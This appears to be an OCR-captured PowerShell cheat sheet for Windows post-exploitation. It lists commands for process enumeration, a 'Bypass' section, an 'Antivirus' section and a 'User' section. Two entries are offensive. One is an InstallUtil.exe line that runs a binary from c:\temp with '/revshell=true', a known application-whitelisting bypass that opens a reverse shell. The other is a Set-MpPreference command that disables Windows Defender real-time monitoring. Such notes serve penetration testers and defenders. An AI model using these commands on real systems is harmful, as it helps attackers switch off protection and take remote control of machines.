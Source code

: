 ```
powershell get-item function:
Get-Process | Where-Object {$_.ProcessName –eq "explorer"}
Get-Process | ? {$_.ProcessName –eq “explorer”} | select Id,Handles
(Get-Process | ? {$_.ProcessName –eq “explorer”}).Id
```
### Bypass
$ExecutionContext.SessionState.LanguageMode
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=true /revshell=true /U c:\temp\psby.exe
### Antivirus
```
#Check status
Get-MpComputerStatus
#Disable
Set-MpPreference -DisableRealtimeMonitoring $true
```
### User
```
Get-LocalUser | ft Name,Enabled,Description,LastLogon
Get-ChildItem C:\Users -Force | select Name
```
